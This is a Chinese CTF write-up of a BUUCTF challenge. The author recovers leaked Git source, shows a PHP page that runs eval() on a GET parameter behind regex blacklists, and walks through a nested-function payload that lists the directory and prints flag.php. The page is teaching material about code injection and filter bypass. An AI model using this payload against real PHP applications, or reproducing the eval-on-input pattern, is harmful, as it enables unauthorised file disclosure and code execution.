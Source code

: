 ### 函数嵌套绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b17838d0e0a243d4ffc336.jpg)

打开网页啥也不是

![](https://pic1.imgdb.cn/item/67b17848d0e0a243d4ffc337.jpg)

扫描后台发现 git 泄露

![](https://pic1.imgdb.cn/item/67b1785bd0e0a243d4ffc339.jpg)

使用 GitHack.py 下载文件

![](https://pic1.imgdb.cn/item/67b17873d0e0a243d4ffc33c.jpg)

拿到源码一顿分析，首先是过滤了伪协议，第二是匹配以字母或下划线开头的函数调用

(?R) 是递归模式，用于匹配嵌套函数调用，最后过滤了一些关键字

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

需要了解几个函数

scandir() 返回指定目录中的文件和目录的数组

localeconv() 函数返回一个包含本地数字及货币格式信息的数组，相当于 ls

current() 返回数组中当前元素的值（也可以替换为 pos()）

最后 print_r 打印出来发现 flag.php

![](https://pic1.imgdb.cn/item/67b178f0d0e0a243d4ffc347.jpg)

接下来先先使用 array_reverse() 反转，再接上 next() 跳到第二个即 flag.php

最后外面套一个高亮显示拿到 flag

```php
?exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```

![](https://pic1.imgdb.cn/item/67b17919d0e0a243d4ffc34d.jpg)